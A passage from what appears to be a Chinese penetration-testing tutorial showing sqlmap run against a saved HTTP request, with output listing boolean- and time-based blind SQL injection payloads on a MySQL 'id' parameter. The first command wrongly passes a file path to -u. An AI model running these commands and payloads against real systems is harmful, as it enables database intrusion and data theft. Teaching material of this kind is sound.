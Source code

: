 将以上内容复制下来，保存为txt文件；

![image-20230530084631740](D:\Document\My_book\My_Books\钟全龙著\img\image-20230530084631740.png)

然后使用sqlmap进行文件注入；

```shell
sqlmap -u /home/hacker/test2.txt
```

![image-20230530084805520](D:\Document\My_book\My_Books\钟全龙著\img\image-20230530084805520.png)

可以看见上面成功注入，并且给出了网站存在的注入点，都是盲注，时间盲注和布尔盲注，给出了操作系统等详细信息，使用工具到达高效率；

URL注入在这里行不通，sqlmap使用URL地址注入失败，因为过滤了网页URL地址栏的输入，所以NULL空值注入也是无法成功的。

获取当前数据库

```shell
[ BlackArch ~ ]$ sqlmap -r /home/hacker/test2.txt -current-db
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.7.5#stable}
|_ -| . [(]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 08:51:09 /2023-05-30/

[08:51:09] [INFO] parsing HTTP request from '/home/hacker/test2.txt'
[08:51:09] [INFO] resuming back-end DBMS 'mysql'
[08:51:09] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1 AND 8687=8687&Submit=Submit

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1 AND (SELECT 9836 FROM (SELECT(SLEEP(5)))hZle)&Submit=Submit
---
```

结果如下

![image-20230530085147793](D:\Document\My_book\My_Books\钟全龙著\img\image-20230530085147793.png)

#### 获取数据表
